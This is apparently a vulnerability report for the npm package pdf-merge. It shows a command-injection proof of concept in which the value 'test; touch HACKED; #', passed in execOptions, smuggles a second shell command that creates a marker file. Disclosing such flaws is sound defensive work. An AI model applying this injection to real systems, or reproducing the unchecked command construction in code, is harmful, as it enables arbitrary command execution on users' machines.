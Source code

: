 # Description

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any checks, leading to `arbitrary command injection`


# POC

1. Create the following PoC file:

```js
// poc.js
const PDFMerge = require('pdf-merge');
 
const files = [
    `1.pdf`,
    `2.pdf`,
    {file: `protected.pdf`, inputPw: '_SeCrEt_'}
];
 
//Buffer (Default)
PDFMerge(files, {execOptions: 'test; touch HACKED; #'})

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i pdf-merge # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created :)
